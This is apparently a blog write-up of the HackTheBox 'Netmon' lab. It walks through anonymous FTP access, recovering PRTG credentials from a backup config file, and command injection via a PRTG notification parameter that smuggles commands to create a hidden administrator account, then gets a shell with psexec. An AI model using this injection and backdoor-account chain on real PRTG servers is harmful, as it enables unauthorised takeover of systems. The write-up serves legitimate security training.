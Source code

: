 ```yaml
---
layout: post
title: HackTheBox - Netmon
date: 2022-03-11 15:39 +0200
author: Arcee
tags: htb box easy windows misconfiguration
categories: [HackTheBox, Box]
---
```


![Netmon](/assets/img/posts/htb-netmon/netmon.jpg)

Easy Windows box on HackTheBox, full file system over anonymous FTP. Hosts instance of PRTG Network Monitor which can be used with FTP access in a backup configuration file. Uses command injection vulnerability. 

## Box Info:

Name: Netmon

Release date: 11-03-2018

OS: Windows

Solve date: 11-3-2022

## Enumeration
Nmap results: 

```
ORT     STATE    SERVICE        VERSION
21/tcp   open     ftp            Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open     http           Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
106/tcp  filtered pop3pw
135/tcp  open     msrpc          Microsoft Windows RPC
139/tcp  open     netbios-ssn    Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
464/tcp  filtered kpasswd5
497/tcp  filtered retrospect
1556/tcp filtered veritas_pbx
1801/tcp filtered msmq
1900/tcp filtered upnp
2004/tcp filtered mailbox
2030/tcp filtered device2
3000/tcp filtered ppp
3006/tcp filtered deslogind
3301/tcp filtered unknown
3766/tcp filtered sitewatch-s
3784/tcp filtered bfd-control
4321/tcp filtered rwhois
5100/tcp filtered admd
5631/tcp filtered pcanywheredata
5987/tcp filtered wbem-rmi
9999/tcp filtered abyss
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

**Port 80: PRTG Network Monitor**
Default login prtgadmin/prtgadmin does not work

**Port 21: FTP Server**
Anonymous login allowed! So we can log in with username:anonymous and an empty password. 
Next we can move to the Users/Public directory and get the user flag!

`HTB{af****************************51}`

We cannot access the administrator files, as we get a 550 access denied. 

### Getting root
As we don't know the PRTG Network Monitor credentials, we try to find the configuration files in the ftp server. 
Googling leads to the config files of PRTG being in the location
`%ALLUSERSPROFILE%\Application data\Paessler\PRTG Network Monitor`

So we cd to that folder and try to download the configuration files. 

We use `grep -A 20 -B 20 "prtgadmin" FILENAME` to check if there may be another password set, as we know the default username is prtgadmin. (-A is for the 20 lines before the occurrence of the word, -B is for the 20 lines after the occurrence of the word).

PRTG Configuration.old.bak gives us some info!
```
<dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
</dbpassword>
```
So we have the default password. However, this does not work.
Tweaking the password a bit to PrTg@dmin2019 does allow us to log in!

We can now try command injection, as explained here: https://www.codewatch.org/blog/?p=453
We set up a new notification (Setup -> Account Settings -> Notifications), and add a new notification. 
We select the "Execute Program" and use the demo.ps1 file for the program file. We then enter the following as the parameter:  `test.txt; net user anon p3nT3st! /add;net localgroup administrators anon /add"`

Then we execute the notification and can now run smbmap:
```
smbmap -H 10.10.10.152 -u anon -p "p3nT3st\!"
[+] IP: 10.10.10.152:445        Name: 10.10.10.152                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  READ, WRITE     Remote Admin
        C$                                                      READ, WRITE     Default share
        IPC$                                                    READ ONLY       Remote IPC
```

**Shell**  
Now we use psexec.py to create a shell: 
`psexec.py 'anon:p3nT3st!@10.10.10.152'` and now we can grab the root flag:

`a5****************************25`

